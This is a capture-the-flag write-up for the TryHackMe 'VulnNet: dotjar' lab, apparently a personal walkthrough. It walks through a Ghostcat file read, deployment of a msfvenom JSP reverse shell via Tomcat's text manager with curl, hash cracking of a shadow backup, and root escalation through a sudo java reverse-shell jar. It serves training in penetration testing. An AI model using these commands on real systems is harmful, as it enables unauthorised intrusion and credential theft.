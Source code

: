 # VulnNet: dotjar

https://tryhackme.com/room/vulnnetdotjar

Oof, this room took a lot longer than it should have, I think. I really struggled with the initial foothold (not helped by the room saying it should have been easy, haha).

Recon showed two ports, `8009` and `8080`. On `8080` was a tomcat instance, so I immediately though of the war deploy hack, but the manager interface was protected by basic auth. I ran through a bunch of default creds for this, tried hitting it with hydra and even metasploit's enum function (I usually avoid metasploit just because its too magic), but no dice.

`8009` is the 'ajp' port, sort of a different protocol way to access the admin interface. A few resources I'd read only mentioned it insofar as you can use it to access tomcat if `8080` is blocked, which wasn't much use. Hmm. I figured it being exposed though, as one of only *two* ports, must be important.

An hour or so of banging my head, and I did a bit more research before stumbling onto [Ghostcat](https://www.securityweek.com/apache-tomcat-affected-serious-ghostcat-vulnerability) - a vulnerability in ajp that provides somewhat restricted but still potentially devastating local file inclusion. To test this, I hit up exploit db and found this python 2 script: https://www.exploit-db.com/exploits/48143

Grabbing this and running it as is (`python2 ghostcat.py 10.10.104.169`) pulled out the `WEB-INF/web.xml` file, which contained the following text:

```xml
<description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    <redacted>:<redacted>

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
```

Great! I had creds... but these didn't work for the manager interface. They did work for the host-manager though, and thus went the next hour as I went down a dead end. Specifically, I tried following this guide: https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/, but couldn't get it to work. Turns out, it only works if a number of configurations have been made to, for example, allow tomcat to host from remote servers which didn't appear to be the case.

So I was stuck again... until I read the above more slowly. The GUI is disabled... but in my wanderings and enumeration of tomcats docs I found it had a ... text interface? basically a simplistic api. That is, `/manager/html` is the standard manager url, but */manager/text* performs basically the same purpose *without a gui*! Sure enough, by accessing `/manager/text/list` I got a list of deployed applications.

Ok, so back to using the standard war exploit, finally :)

- First I created a jsp-based reverse shell with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.108.144 LPORT=4444 -f raw -o revshell.jar`
- Then I uploaded this using curl: `curl -u <redacted> --upload-file revshell.war http://10.10.104.169:8080/manager/text/deploy?path=/revshell`
- Finally, by starting a nc listener and navigating to `http://10.10.104.169:8080/revshell`, I got onto the machine as 'web'.

From here it was somewhat easy. I ran linpeas, and found a backup file under backups I could read, `shadow-backup-alt.gz`. Unzipping this got me a copy of shadow with the hashes for `web` and the other user, `jdk-admin`. I put these through hashcat with rockyou and `-m 1800` and quickly got the jdk-admin password. In their home directory was the user flag.

To get to root, sudo -l revealed I could run java as root, specifically `/usr/bin/java -jar *.jar`. Easy. I created another revshell, with a subtly different payload: `msfvenom -p java/shell_reverse_tcp LHOST=10.10.108.144 LPORT=4445 -f raw -o revshell2.jar`, brought this onto the machine via a web server and wget, started a new listener and then ran the sudo command to get a root shell. Boom :) As a note, msfvenom with a java payload will emit a jar format by default.
